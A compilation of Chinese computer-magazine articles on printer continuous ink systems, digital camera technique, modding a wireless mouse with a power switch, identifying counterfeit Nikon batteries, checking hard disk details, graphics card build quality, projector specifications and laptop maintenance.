内墨盒：打印机内部装入墨车的墨盒称为内墨盒。内墨盒有原墨盒和专用墨盒。原墨盒指原厂墨盒和通用墨盒通过改装，作为连续供墨的内墨盒，专用墨盒指专门针对连续供墨而制造的墨盒，主要有无绵墨盒、墨囊等。目前采用无绵墨盒居多。

连续供墨系统安装和使用都非常简单，不需要对打印机做任何改动。而且如果不想使用连续供墨系统，可以随时取下系统，换上原墨盒即可使用。目前市场上销售的连续供墨系统大多直接配好以上三项配件，用户在使用时只需要在打印机内放入相应的墨盒，然后按照颜色连接输入管即可（见图6）。



在选购打印机时，我们也建议用户更多考虑产品是否能够改造填充墨水或者使用填充墨水，这对于照片打印量较大的用户而言十分重要，可以直接将打印成本降低60%以上。

（阿亮）

## 数码相机新手必读的五大拍摄技巧

### 合理选择拍摄分辨率

我们都很清楚，数码照片的质量与像素（分辨率）有关，像素越高图像质量就会越好。而经实际情况的推算，200万像素的数码相机大约与1200dpi的扫描仪拥有同等的数字影像捕捉能力，而600万像素的数码相机则可视为与2400dpi的扫描仪同级。若只是使用一般的平台扫描仪扫描照片，那么数码相机只要200万~300万像素就可轻易地胜过传统35mm相机了。不过，如果输出4英寸×6英寸，约A6大小，使用200万~300万像素的数码相机足可满足一般人的需求。而若只是用于电脑72dpi的显示器，要求就更低了，分辨率为1024×768，才约为80万像素，任何一台200万像素级别的数码相机都可以游刃有余。因为数码相机储存空间有限，因此我们要因地制宜，合理选用分辨率，如：只用于PC的，一般使用1280×960；如应用于印刷，一般采用1600×1200；拍生活照时，当然用2048×1536。在要求不高的情况下，压缩标准也采用Standard，这可比Fine的压缩标准多一半的图片。

### 掌握好闪光灯进行拍摄

最好使用自动闪光灯模式，让数码相机自动检测环境，以达成最佳拍摄状况。如果你在室内外拍照都使用闪光灯的话，部分数码相机的表现会有明显的改善，但是不见得就可以拍出好效果。例如，在室内或大白天遇到逆光的情形，比如夕阳西下、背景是光线强烈的霓虹灯景观等，仍旧可以使用闪光灯来补光，将光线打在主体部位上，以免拍出来的图像一片黑的尴尬结果。但是你也要确定一下你手中数码相机的闪光灯指数，也就是闪光灯有效范围，一般来说在0.5~3米之间，这也要视不同的数码相机有着不同的有效范围。否则超过这个范围，可能会使闪光灯无效。如果是近距离拍摄，比如在15~20cm之间，请选择强制不闪光，否则容易曝光过度。

### 避免拍摄大面积同色块景色

由于受到像素与取样的影响，目前的数码相机无法将色块区分得太细。比如，一件黑色的衣服，在光线与阴影的作用下，其黑色色块就可以分为成百上千种黑，数码相机却只能将这种黑分为24种或36种，会与真实景象有所差距。所以，为了要拍出好的照片，最好主体能有既平顺又明显的轮廓，比如人像、车子、建筑物等。也就是说，要将前景与背景明显区隔开来，使图像更加生动。

### 正确运行光线的强度和角度

光是摄影的灵魂。因此我们要留心光线的变化，不仅是光的强度，还有光的方向，用心与光线对话。如：落日把晚霞染成红色，象征着浪漫；阴暗的天空呈现出灰色的冷色调，象征着忧郁；树荫中撒下一束阳光，透射出欢乐、愉悦的情绪……。

### 分辨光的强度

硬调光通常是由单一光源发出的，比如：太阳、聚光灯、闪光灯或单只灯泡。在这种照明下，被摄体反差较大，细节和质地被突出。你可以运用这种光线获得纪实效果。
与此相反，漫射光线产生的光质较软。室内间接的照明，户外的树阴和阴天时都属于这种情况。在这种光线条件下拍摄肖像和静谧的户外风景都是再理想不过的了。

### 讲究用光角度

用光的角度不同，被摄体的质感会相应地被强化或削弱，被摄体的形状就会被突出或被淡化。照片的基调是愉快的还是忧郁的，也会因用光的角度不同而有所不同。从相机上方或后方（通常称之为正面光）投射过来的光线会降低被摄体的层次感，原因是正面光不利于营造高光和阴影。较好的选择是让光源偏于一侧，同被摄体呈大约45°角的侧光，就可以很好地表现被摄体的形状和细节。

### 不要迷信数码相机的自动模式

首先，和传统相机另一个最大的差别是数码相机有一个白平衡。这有点类似于传统摄影中的色温，也正是由于初学者没有重视这白平衡，所以才会产生偏色。数码相机一般都提供有自动、室内、室外、手动四种模式，初学者都信赖AUTO，可往往拍出的图片偏了某一颜色，只要我们细心注意LCD取景窗是可以看出的。当我们刚拍摄到某一实物，该实物一般偏重某一颜色，假如蓝色，这时数码相机的白平衡会自动偏向于蓝色，再拍摄其他实物时自然也是会偏色的。这点虽然在LCD中会体现出来，但初学者一般都没发觉。同时，有些模式也不尽完善，如：SONY的数码相机在室内模式下都有“蓝色综合症”现状，因此我们还是尽可能使用手动白平衡为好。而且，还要密切留意LCD的色彩变化，一发现该白色的不是白色，就得重新对白色的实物取光修正白平衡。另外，有些数码相机也具备了自动包围式白平衡的功能，以便记录准确的色彩信息。
其次，光圈、快门的控制。建议若有手动的也应使用手动模式，因为自动模式下通常拍出来的图片暗淡，特别是室内，噪点也多。

因为在室内拍摄时，数码相机一般会自动提升ISO值，如：SONY DSC-F505V在室内一般达282左右，而感光度与影像质量成反比关系，即选用的等效感光度越高，影像质量越差。这和传统感光材料的特性类似，只是在数码相机上这种特性表现更为明显。因为传统摄影中，我们通过选择不同的感光度胶卷或者通过“提速增感”来改变拍摄时的感光度，但是数码相机就不能这样做，它只能通过提高CCD的灵敏度以及电路的增益来提高CCD的反应速度，即牺牲滤波性能和分辨率指标为代价，这样做就会产生一个信号噪声的问题，并最终在画面上留下痕迹，这一点和传统的高感度胶卷的粗颗粒十分类似。所以在用数码相机拍摄时，若想获得好的成像质量应尽可能地选择低的等效感光度，或直接固定在最小值。
再次，数码相机都有微距模式，而且数码相机的广角一般较大，达F2.0左右。在自动模式下，相机的程序也倾向于使用较大的光圈以缩短快门时间，防止震动。但摄影常识告诉我们，照相机镜头的收缩一般从最大光圈收缩两级左右拍摄的照片效果最好。尤其是在微距模式下，如：SONY DSC-S75在拍一些手机按键时，只有中间部分清晰细腻，周边的都带轻微的模糊。因此，我们最好使用光圈先决或全手动模式，使用较小的光圈以扩大景深。如果数码相机没有光圈优先功能，可以试着尽量提高环境亮度，让数码相机自动选择较小的光圈或者使用闪光灯，图像质量也能有所改善。

（北京 天马行空）

## 让无线鼠标“休息”一下

笔者近日从网上淘得一款无线鼠标，虽说这款鼠标仍是普通的机械鼠标，但几十元的低廉价格还是让我等穷人过了把无线瘾。使用了一段时间后，感觉还不错。不少朋友都说无线鼠标耗电大，笔者使用的是普通的7号电池，用了有两个月左右，还是比较省电的。

该鼠标内有状态指示灯，当鼠标移动时，指示灯亮，说明有信号发出，接收器接收到信号后再传送到电脑内，经处理后在屏幕上显示鼠标移动的轨迹。当电脑主机关闭后，移动鼠标，鼠标的状态指示灯仍亮，说明鼠标仍是在不断的通电工作。无线鼠标上并没有安装电源开关，因此，这种无线鼠标与家中的彩电遥控器一样，是二十四小时“上班”的，中间也没有个休息的时间，无线鼠标在这样长时间的工作中，整个电路都在随时待命，会影响三极管、电容等这些元件的使用寿命。尤其是两个红外线发射管，不管是否需要，都要发射出红外光，长此以往，很容易导致红外线发射管的老化。
在日常生活中，并不是需要经常使用鼠标的，因此，出于省电和防止元器件老化的目的，笔者在鼠标内增加一个电源开关，具体操作如下：

- 首先，拆开鼠标，这款鼠标的电池仓在上部，如果将电池与鼠标之间安装一个开关，就可以起到控制鼠标的作用。仔细观察一下鼠标的内部结构，尤其是电池附近，发现与电池夹相连的电路板上有根飞线，将这根线断开，再串接一个开关就可以了（见图1）。

- 开关最好是选择微型拨动开关（见图2），这样使用起来要顺手些。根据鼠标内的空间以及使用习惯，笔者将拨动开关安装在鼠标的侧面，也就是大拇指靠后的位置。在拨动开关上焊上两根细导线，再与电路板上断开的焊点相连。焊好后用万用表检查一下，看电路是否正常通断，有无虚焊短路等。







- 根据拨动开关的安装位置，用烧热的电烙铁在鼠标上烫孔，再用小刀修整一下，使开孔平滑美观。将拨动开关塞进挖好的孔内，试着拨动开关，开关能灵活拨动就行了，用强力胶或是热熔胶将拨动开关固定在鼠标的外壳上，再将鼠标外壳装好即可（见图3）。

经过如此改制后，在不使用电脑时可以顺便将鼠标关闭，让鼠标该休息时就休息，需要使用时再打开开关即可。一个开关就可以节省电池，延长鼠标的使用寿命，真是一举两得。

（江苏 天师）

为什么市面上假电池充斥，却很少听说数码相机因充电起火燃烧的现象，反而是手机电池常常因假电池品质不良造成手机损坏？这个答案其实与使用者使用器材的频繁度和器材充电的方式有关，举例来说手机已经成为了日常必需品，充电成为了每天必要的注意事项，长期频繁地使用，遇到问题电池出状况的机率当然也就升高了。再说，目前数码相机占50％以上仍以附属充电器为主，其他才是在机身内充电，附属充电器有较多的空间容纳保护线路，能够实时检测避免电池异常而烧毁。然而，越来越多的数码相机厂商为了节省成本和方便携带，逐步地将充电器改为电源适配器充电的方式，这时再加上数码相机电池的电含量远远高过手机的设计，一旦出问题，所引起的灾害肯定不小。

## 图解真假尼康锂电池

图5：仿冒电池的背面的标签上也出现日文的“专、电、协”部分的汉字以简体字的标记，而正品应为“專、電、協”。

Nikon(尼康)很少更换电池的种类，Nikon有部分的电池在中国制造，增加了利用Made In China的混淆机会。这篇文章是针对Nikon仿冒最多的三款锂电池：EN-EL1、EN-EL2和EN-EL3，进行仿冒与实物的对比，大家在购买Nikon锂电池时可要睁大眼睛。

图6、7、8、9、10：目前Nikon正品EN-EL1锂电池的5种不同包装，产地均为日本，注意容量确实有不同处。

### EN-EL1(左侧仿冒电池、右侧正品电池)

正品的EN-EL1锂离子充电电池的电容量为7.4V/680mAh，尺寸：约32mm(宽)×16mm(长)×52mm(高)，重量约46g(电池塑料盖除外)。下面是仿冒电池和正品电池的对比。





图1：仿冒电池的背面产地的英文拼写不同，而且还有错误字，看来仿造者的英文水平不大过关。仿冒电池标为“NIKON COM. PADE IN JAPAN”，而正品是“NIKON CORP. MADE IN JAPAN”。





图2：仿冒电池的反面CAUTION标签上注意红色日文“ふ”，与正品应该是“る”。





图3：仿冒电池的正面CAUTION标签印刷比较模糊，而正品是非常清晰。





图4：仿冒电池的正面CAUTION标签上日文“スと”误印，日文的“专、电、协”部分的汉字却以简体字的标记，而正品应该为“專、電、協”。





### EN-EL2(左侧仿冒电池、右侧正品电池)

正品的EN-EL2锂离子充电电池的电容量为3.7V/1000mAh，尺寸：约39mm(宽)×8mm(长)×54mm(高)，重量约30g(电池塑料盖除外)。下面是仿冒电池和正品电池的对比。









图11：仿冒电池的背面竟然没有“Nikon”商标，而自作聪明地将型号“EN-EL2”来代替“Nikon”的位置，同时也没有1000mAh电容

## 不开机箱认识硬盘

硬盘是我们电脑所有数据的存储中心，要了解是否用好了自己的硬盘，我们需要知道硬盘品牌、容量、缓存大小、接口类型等信息。利用系统工具和软件，我们也能不开机箱获取这些信息。

### 入门篇：了解容量和连接方法

我们真的了解自己的硬盘容量吗？笔记本上用的硬盘一般有隐藏的备份空间，而一些二手硬盘也会用隐藏空间的方法躲避坏道检测，那么我们如何知道硬盘空间的短缺是属于正常的计算方式不同还是有隐藏空间呢？

打开“控制面板→管理工具→计算机管理”，在“计算机管理”程序窗口中打开左边的“存储”展开菜单，点击“磁盘管理”，右下方窗口中就会显示所有物理存储器的容量和分区，如图1，这台电脑装了容量111GB和74GB的两块硬盘，并已经全部划分为Windows识别的分区，没有隐藏。至于硬盘厂提供容量与Windows检测容量的区别，我们后面会谈到。



我们有注意过硬盘的连接顺序吗？一个IDE口能够同时接两块硬盘，但这样的连接方式会影响硬盘整体性能；现在不少主板又附加了IDE或者SATA控制芯片，给硬盘提供了更多连接口。我们如何判断硬盘的连接方式呢？打开“系统属性→设备管理器”，点击“查看”菜单，把查看方式改为“依连接排序设备”，然后再展开设备，手动查找到硬盘的位置，如果显示硬盘在“主要/次要IDE通道”下面，表示硬盘连接在主板芯片组上，如果显示连接为其他芯片上，则表示硬盘连接于附加控制芯片上，如图2。其中我们注意到图2中连接到附加芯片上的硬盘被识别为SCSI硬盘。这是因为附加控制芯片作为单独的磁盘控制芯片，与CPU交流数据，让CPU不直接控制硬盘，这样的控制方式类似SCSI硬盘控制方式，所以Windows中硬盘也就被认为SCSI设备了。



### 晋阶篇：深入了解硬盘属性

硬盘的容量只是硬盘内部参数的外部表现形式，我们同样用EVEREST检测出这些信息，下载地址依然为 http://dl.pconline.com.cn/html/1/5/dlid=7695&dltypeid=1&pn=0&.html。

在EVEREST左侧窗口中点击“存储器”展开菜单中点击“ATA”选项，右侧窗口就会出现本机中的硬盘信息（如图3）。首先我们可以了解硬盘的容量，这个信息可以通过“ATA设备信息”中的“参数”计算出。计算方法为“柱面×磁头×扇区×字节/扇区”，这样计算出的结果是硬盘的存储字节数，而如果要换算为GB，则硬盘厂家是按照1K=1000的换算单位计算，而Windows中是按照1K=1024的单位计算，这样的容量计算在早期还只有较少的误差，但随着硬盘容量增大，两者的容量差别已经达到了让人很吃惊的地步。比如，这块硬盘在厂家计算中就是120GB，而在Windows计算中就是111GB了。还有需要注意的是这里的参数只是硬盘管理的逻辑参数，而不是硬盘设备的物理参数，比如这块硬盘有16个逻辑磁头，但真实的物理磁头没有那么多，这在下面会谈到。



接下来我们能了解到硬盘的传输模式，“最大PIO/UDMA传输模式”信息表示我们硬盘支持的传输模式，现在的PATA硬盘都支持到UDMA5传输模式，迈拓硬盘则支持到UDMA6传输模式，而SATA硬盘的传输模式则算作UDMA7。“当前UDMA传输模式”表示硬盘正在运行的传输模式。如果“当前UDMA传输模式”低于“最大UDMA传输模式”，那么就应该看看硬盘安装是否有问题，包括数据线连接是否接反或者本身有问题；主板芯片组是否过老，不支持高速传输模式。

ATA设备特征主要包含了此款硬盘支持的一些安全技术和数据存储管理。这里重要的就是SMART，表示“自我监测、分析和报告技术”。利用它可以监控硬盘驱动器的健康状态，并使用特殊算法预测可能存在的驱动器故障，进而防止数据丢失。另外“48-bit LBA”也是我们在了解硬盘中常听到的术语，这表示这款硬盘控制器的寻址能力能够达到2^48bit，就是能够支持大于137GB容量的硬盘。

ATA设备物理信息提供了这款硬盘的物理特征，包括生产厂商、硬盘型号、外形大小、厂商提供的容量、转速等。其中，我们经常会说某硬盘单碟容量多大，在这里我们也能算出来。这块硬盘有2张记录盘片，每张盘面应该有上下2个记录面，共4个记录面，不过此款硬盘只用了3个记录面，那么每个记录面的容量就是120GB/3=40GB，每个盘片的容量就是40GB×2=80GB，这款硬盘就是单碟80GB的硬盘。而每个存储面都只有一个读写磁头，因此这个硬盘有3个物理磁头。另外一个对性能重要的参数就是缓存容量，这款硬盘有8MB的缓存空间，更大的缓存空间能够提升硬盘读写的效率。另外还有用户问，为何厂商提供信息中寻道时间为8.5ms，但实际测试则达到了12ms，这是因为一次完全的寻道时间还包含寻道间的“平均延迟时间（潜伏期）”，因此硬盘真正的寻道时间就是“平均寻道时间+平均延迟时间”，落实到这款硬盘，就是8.5ms+4.16ms=12.65ms。

（Pisces）

## 做工，不可忽视的问题

可能不少朋友有这样的疑惑：为什么采用同芯片的电脑配件价格相差巨大？排除品牌效应外，原因就是被他们忽视的一个主要因素——做工。不少厂商却在做工方面“偷工减料”，抓住的也是部分消费者只对性能重视而忽视做工的行为。那么做工的好坏，能产生多大的影响呢？目前，随着游戏3D引擎的发展，显卡的地位越来越高，而又最容易有问题，故笔者今天就以显卡为例进行说明。

### 显卡PCB层数对显卡的影响

PCB质量的好坏直接影响显卡稳定性和抗干扰能力，对通常的公板来说，PCB的层数是一个值得注意的问题，PCB层数越高，走线空间也越大，屏蔽越完善，抗干扰能力也就越强。但是，随着PCB层数的增高，设计要求也随之增高，板子的生产和元件装配的精度要求也就越高。

除层数外，PCB中的屏蔽设计供电模块等也十分重要，同层数的PCB电气性能也不尽相同，如FX5700LE可以使用P222的PCB，也可以使用P162的PCB。而PCB162较P222来说是一种相对较廉价的方案，故超频性能也欠佳。市场上有很多显卡标配显存规格高于公板规格很多，但是往往超频结果达不到显存原始标称频率（例如2.8ns DDR的显存到500MHz就在上不去了），原因就是所使用的PCB电气性能达不到。而很多“超频”版，在使用高规格显存的同时，往往也使用更高设计的PCB使整卡能稳定工作在高频状态。

#### 小技巧：判断PCB的层数

- 对于公版设计显卡，会在PCB上印上PCB编号（如P222），搜索资料即可得到相关信息。若采用非公版或当时无法查阅相关资料，一般来说做出精确判断比较困难，可以用如下方法进行大致判断：PCB两面走线稀疏、板卡透光则为2层板，板卡两面无盲孔只有通孔则为4层板，两面有盲孔为6层或6层以上板。

### 供电模块的做工问题

显卡上的另一大部分就是供电部分，像回路设计等和主板类似这里不再赘述，目前最容易产生疑问的就是供电部分的电容（即显卡上体积较大的电容）有直插式的有贴片式的，电容的参数除了电容值、耐压值和耐温值外还有一个非常重要参数，那就是ESR值，目前ESR值成为区别电容等级的一个重要属性，随着板卡工作频率的升高对电源滤波要求越来越高，对电容的ESR值也就也就越来越低，这就诞生了Low-ESR电容，Low-ESR电容规格高但价格也高。高档显卡对电容的投入往往能高达几十圆，目前常用的Low-ESR电容为固体聚合物电容与固液混合式电容，显卡厂商常用Sanyo Oscon SVP系列（见图1）、Sanyo Oscon CVEX系列（见图2）和Chemicon PS系列（见图3）。

#### 小知识：ESR

ESR是“Equivalent Series Resistance”的缩写，即为等效串联电阻。顾名思义，就是表示电容的等效阻抗。



单位常使用毫欧姆（ESR较高也使用欧姆），是一个和容量、电压、温度、交流频率都有关系的参数。ESR是一个非常重要的参数，其与通过电流的乘积为涟波电压。在数字系统中过大的涟波电压可引起系统的误判造成错误，随着电子工业的发展，对ESR值要求越来越低。

目前存在的误区是不少朋友只认所谓的“贴片电容”，认为“贴片电容”一定比“直插式”电容要好。其实封装形式并不能代表电容的电气性能。“直插式”电容中也不乏上等品，例如Sanyo Oscon TCNQ系列有机电容（见图4）。Chemicon也有极为优秀的直插式电容，它们的性能都优于普通贴片式电容。



以上所说的电容辨别起来也很简单，通过外观即可，Sanyo Oscon SVP电容顶部一半为紫，Sanyo Oscon CVEX电容顶部一半为绿，并有防暴印，Chemicon PS电容顶部一半为淡蓝且通常印有PS字样。

### 易被忽视的低通滤波电路

目前显卡之争是速度之争，为了压缩成本，厂家不愿过多投入在2D画质方面，所以常常将低通滤波部分“缩水”，低通滤波电路存在于输出端的D-SUB、S端子和DVI后部PCB两面，由贴片元件组成。这部分电路对显卡的性能无关，但却影响着输出画质，做工好的显卡应当有完整的低通滤波电路（见图5），而部分产品将这部分完全省略（见图6）。





#### 小知识：DVI接口种类

DVI接口有两种分别为DVI-D和DVI-I，前者接口为24针只传输数字信号，后者接口为29针，其中24针传输数字信号另外几针传输模拟信号。如图。目前显卡上多采用DVI-I，由于要传输模拟信号，DVI部分的低通滤波电路同样十分重要。

### 镀金，金手指的外衣

金手指是显卡接插主板的接口，一般要经过镀金这道工艺，镀金是在金手指的铜箔上镀上一层分布均匀的金膜，金膜具有降低接触电阻和防止金手指被氧化的作用，目前常用的镀金工艺主要有电镀金和化学镀金两种，化学镀金的成本较低，但是金膜厚度较小，在多次插拔板卡后可能使金膜磨损，而使金手指受氧化而导致接触不良，虽暂时的打磨可以去除氧化层，但是失去金膜的保护金手指极易被再次氧化，给使用者带来不小的麻烦。化学镀金和电镀金也很好分辨，电镀金在镀金时需要一根“导线”故在金手指上会留下一根小的短线（见图7），而化学镀金则没有（见图8）。





### 有源晶振，高端的象征

晶振为频率发生器提供了原始频率，但随着温度电压等的变化，晶振所产生的频率会随之而变化，会造成频率的偏移，造成了不稳定。为保证准确要尽量减小偏移，有源晶振温飘/压飘系数比较小，能够产生稳定的原频率。

在显卡上使用的有源晶振比较好认，为一个呈方形的晶振，贴片式的有源晶振较薄，通常有4或6个针脚（见图9），而普通的无源晶振为一个只有2管脚的条形晶振（见图10）。有源晶振成本几倍于普通晶振，目前市场上使用有源晶振的显卡都是高品质显卡（不过并不是使用普通晶振的显卡就一定不是高品质显卡）。





### 元器件的布局、焊接工艺，同样体现做工

板卡的电路设计（针对非公版产品）应当保证一定的电器性能，市场曾出现过一种显卡连最起码的显存到GPU等距都做不到，这样必会使显存传输的数据信号不同步，这样有设计问题的显卡最好不要买，除此之外焊点应当圆滑无毛刺、拉丝、板卡边角部分应当平整、有些厂家将转角处磨圆从而防磕就更好了，这些都在反映该产品的做工，大厂是不会允许自己的产品粗制滥造的。

### 总结

对电脑配件来说，除性能之外，做工问题也不容忽视。如果你是超频爱好者，做工上乘的器件必不可少，如果你对性能要求不高，做工也非常重要，因为电脑的稳定性、辐射问题（关系到健康问题）、外观等等也和做工息息相关，所以在考虑性能的同时不要忘记考虑做工问题，做工在每个地方都有体现。

像声卡、播放机这种需要数模转换的地方，做工的好坏直接关系到输出质量，就更重要了（为什么同解码芯片的MP3播放机的价格相差那么大），笔者就非常喜欢一些做工优良的板卡。谈完了做工，就可以说明另外一个问题：我们从上面的分析已经可以看出，电脑配件除了主要芯片外，容阻等等材料的成本也占很大一部分，“高档”和“仅仅能用”的设计和材料的差价最高可达十几倍甚至几十倍，这当然也就造成了最终价格的差异。

很多朋友一直纳闷：为什么同芯片产品价格差别这么大？同配置机器巨大的价格差异到底在哪里？除品牌效应所占部分外，就是差做工。目前电脑市场主要被一个个标示性能的“数字”所充斥着，诸如：多少多少赫兹、多少多少分。但是在性能外，标示做工的却不多，所以对过于廉价的产品也要格外小心，不要买那种“山寨”级的产品，笔者认为：随着关注做工的消费者的增多，厂商会越来越注意做工的，毕竟这也是我们所需要的。

（北京 李昱）

## 投影机：别把参数当卖点

最近，发现各个投影机厂商不断在做市场宣传活动，从各种宣传中听到最多的词语就是“2000流明、灯泡6000小时寿命、仅重XX公斤、XX独有技术……”等这些词语，似乎各个品牌的机器都有自己的卖点。但是高昂的价格，让大多数人望而却步。

### 幻灯机 + 液晶显示器 = 投影机？

在Tom's Hardware Guide 网站上曾经刊登仅需投入2005元就能将幻灯机和液晶显示器DIY成投影机的文章（http://www.gbtomshardware.com/howto/04q4/041231/index.html），可实现3500流明的亮度、XGA 1920×1080高画质电视分辨率（见图），而且成本仅需2500元。另外，大家也可以下载自制投影机的视频（http://www12.tomshardware.com/images/thg_video_13_diy_beamer.zip）。

但是由于这种方法DIY投影机，与市面销售的投影机是不一样的。

一是DIY的投影机是由一个有点笨重的底座加上液晶面板，所以外表不美观，而且要求有很高的DIY水平。

二是DIY的投影机的液晶面板必须能够冷却到一种程度，以避免发生任何灾难。

三是要让液晶面板免于高温之苦，所以DIY的投影机会在运转时发出不小的噪音。

四是DIY的投影机所采用的材料与真正的投影机不同，例如：DIY的投影机采用价格便宜的卤素灯，而真正的投影机的灯泡会比它高出几倍甚至几十倍。

### 投影机的参数越高越好？

在投影机市场上，“流明”这个词似乎很时髦，很多买家上来就问是多少流明的？商家也动不动就打出高达2000流明、2500流明的噱头来。商家这种过分夸大亮度在家用投影机各项指标中重要地位的做法，实际上在给用户传达这样一个错误信息：亮度越高的投影机越好用、越高档、越值钱。说实话要是买投影机的话，为适应各种环境的需求，亮度要重点考虑。而作为家用投影机来说，亮度就不是最重要的，即便是比较低端的产品也有800流明以上的亮度，最基本的1000左右流明的亮度已经够用了，再大了不仅是一种浪费。在家庭环境中使用，没有几个人的眼睛能承受超过2500流明的高亮度。所以，在选择投影机时，完全可以不必拘泥于亮度的比较中，更不要盲从于商家的“流明”引导。而是要比较一些对视觉效果影响比较大的另外一些指标，如分辨率、对比度等指标。

灯泡是投影机的消耗品，造价昂贵，是选购家用投影机时必须考虑的重要因素。目前投影机普遍采用都是UHE灯泡、UHP灯泡等冷光源，寿命要远远长过那些最早的卤素灯泡，难怪会出现3000、4000甚至6000小时寿命的产品。但是作为任何一种光源来说，亮度的衰减是不可避免的。一般来说厂家都把投影机灯泡使用时间定位于2000小时，这并不是说灯泡到了2000小时就坏了，就点不亮了，而是说此时灯泡的亮度已经有了很大程度的衰减，应该更换灯泡才会有良好的显示效果。

要注意的是，6000小时的灯泡寿命是指半衰期真的已经达到那些2000小时寿命灯泡的三倍？还是厂家在时间设定上进行了延长，使得我们在灯泡产生了一定的衰减后仍可以继续使用？只是现在小编还没办法用实践去证明。

### 总结

相信大家都很清楚，目前IT界的竞争都非常激烈，说到暴利，小编倒是认为很多产品都是暴利。就比如CPU卖几千元难道还不是暴利，其主要原因是技术和工艺要求非常高，除了英特尔、AMD等少数厂商能生产外，其他厂商根本无法介入此领域。而投影机并不存在技术垄断，目前也有许多厂商生产投影机。随着市场销售量提高，成本也会大幅降低，再加上各厂商为了争夺更多的市场份额，其售价也会逐步降低。

（本刊记者 王寒晖）

## 笔记本电脑日常保养与维护终极指导

对于本本爱好者来说，拥有一台自己的本本一直是他们的梦想。不过一旦拥有了它，日常的使用维护就成了重中之重，尤其是对我们这些视本本为生命的穷学生来说，对它更是爱护有佳。

### 维护篇

我们都知道，长时间使用笔记本电脑，多少会出现一些磨损、使用寿命变短等一些无法避免的事情出现，单凭清洁和保养是不够的，良好的使用环境以及好的习惯能使你的笔记本保持良好的状态，也能够减少维护的复杂程度。

#### 1.笔记本的外壳

对于笔记本外壳来说，外表越绚丽的笔记本电脑长时间的使用越是容易被磨损，一些采用铝合金金属外壳设计的就更容易维护了，通常只要一块绵布便可以使外壳一尘不染。但是可能是考虑到轻便以及生产成本等问题，这层镀层往往都非常“脆弱”，一不小心就会脱落一块。使笔记本电脑的整体美观上面下降了整整几个档次，尤其是以Sony、三星等品牌最为严重。而像IBM这样一身黑的外表，反而经受得起“五大三粗”的人使用。不过并不等于使用Sony或者三星朋友就等于宣布了死刑，我们可以提前预防嘛:)。

腕托可是笔记本电脑最容易掉漆的地方，长时间的腕部磨损加上汗液的浸泡，再皮实的笔记本也禁不起这样的折磨，所以我建议你在使用笔记本电脑打字的时候尽量摘下手表等一些首饰，以免硬物划伤笔记本的腕托，同时你也可以在上面仿照Sony等一些笔记本电脑的样子在上面贴一些贴纸，把损伤降低到最小。在工作的时候，也不要将笔记本电脑放到一些粗糙的桌面上，以保护外壳的光亮常新，建议可以使用湿纸巾来进行外壳的擦拭。

#### 2.笔记本的屏幕

比起外表的维护，屏幕的保养更为重要。不但因为它是整个笔记本中价格最为昂贵的配件，而且屏幕的好坏直接影响着使用者的使用舒适度。长时间使用笔记本电脑，屏幕的亮度会变暗，这是由于屏幕内的灯管老化所造成的，属于正常现象。一些喜欢在屏幕面前“指点江山”的朋友，千万要注意，不要把口水溅到屏幕上面去了，因为唾液含有少量的酸性物质，一旦粘带屏幕上就会腐蚀了娇贵的液晶显示器。

笔者经常会看到一些关于液晶显示屏保养的方法中说是用清水轻轻擦拭。清洁液晶显示屏最好用蘸了清水（或纯净水）而不会掉绒的软布轻轻擦拭。不过笔者经过求证得到的确实这好像是在谋杀笔记本液晶屏。其原因有以下几点：

- （1）真正触摸过液晶屏的人都注意到液晶屏其实好像就是在软软的水上面覆盖了一层薄薄的塑料。尽量不要用硬物去触动它，即便是软布由于作用力道的原因也会在液晶屏表面形成压力区凹面。而液晶屏的压力凹面非常容易造成液晶屏单元性的损伤而导致区域性显示失真。
- （2）水是不会对液晶屏本身造成损害的，因为它表面覆盖有一层特殊的保护材料。真正被水影响到的是笔记本电脑的内部电路，还有网友说用酒精擦拭比较好因为酒精容易挥发。对于这一点，IBM的工程师告诉我，用酒精擦拭确实是比水好。但是由于酒精的浓度不同含水量不同，所以也不是很妥当。

当然如果你自己的液晶屏真的脏的不像样子了，你还是可以使用专用的液晶屏清洁液或浓度高的酒精（因为浓度越高的酒精越容易挥发）及专用的液晶屏擦拭布处理。而且使用时候要注意对显示屏的保护。

另外，还有一些朋友喜欢给自己的LCD上贴上保护膜，我们不建议这样做，因为任何保护膜都会降低LCD的实际显示效果，尤其在清晰度和锐利程度方面更加明显，保护膜一般也很难贴得平整没有气泡，除了样品机和使用环境很恶劣的笔记本电脑外，我们不建议给LCD贴上保护膜。

#### 3.笔记本的键盘和鼠标

其实客观来说，键盘、鼠标的维护不必太放在心上面，它们维护起来难度也比较大，我们总不能因为怕把键盘和鼠标弄脏而不去使用它们吧？这样不是违背了使用笔记本电脑的初衷吗？当然了，如果你平时很少移动笔记本电脑的话，可以去考虑买一些外接的鼠标和键盘来使用。此外，大家尽量要养成在使用笔记本电脑的时候不吃零食和不吸烟的习惯，避免零食的残渣和烟灰掉入键盘缝隙中去，这么做的原因是避免这些东西会导致键盘或者鼠标的失灵。

#### 4.笔记本的硬盘维护

硬盘也是笔记本电脑中比较娇贵的配件，尤其是移动中使用笔记本电脑，硬盘产生坏道的几率会很高，建议大家最好找一个相对平稳的地方使用本本，不要在公车或者火车上面使用，因为那种使用环境会产生比较大的震动，会让你的笔记本硬盘“吃不消”的。当然了，像台式机一样进行数据整理与备份也是必要的。

#### 5.笔记本接口的维护

现在的笔记本电脑在接口方面可以说已经做得非常全面了，不过并不是每种接口都会经常使用到，比如：串口，一般只有网络管理和调试领域才会用到。而这些不常用到的端口闲置下来，如果不及时得到保护，很有可能会因为遇见空气而氧化或者生锈。有些厂商想得比较周全，会为一些不常使用的端口配上端口盖板或者是端口塞。这样的设计多出现在日系的厂商中，比如：Sony等。当然了，如果厂商没有为机器配备这些保护措施，你也可以找一些日常使用的不干胶，贴在端口上面，同样也可以达到不错的效果。

#### 6.笔记本电池的维护

笔记本电池的维护需要很多的技巧，毕竟电池是一种消耗品，如何在它的寿命周期里为你更好的服务才是用户应该考虑的问题。只要懂得维护，你就可以即放心的使用电池，也可以保持其较长的寿命。

## 清理篇

- 最好做到用尽充满的原则，这是保证笔记本电脑电池最大限度保持最佳状态的办法，最好在电池电量显示到10%左右再进行充电，当电池充电量充到90%的时候电源会改以小电流进行维护性的充电。这时候，最好不要拔掉电源，让电池充分得到维护，而在充满电后，也无需拔去电源；因为这时充电电路会自动切断充电电路；改为电源直接供电，对电池不会有影响。

- 避免在高温环境下使用锂电池，专家研究，高温状态下会加速锂电池的老化过程，并且同样地不要在极端的低温环境下使用。低温环境会降低锂电池的活性，降低笔记本电池的寿命。

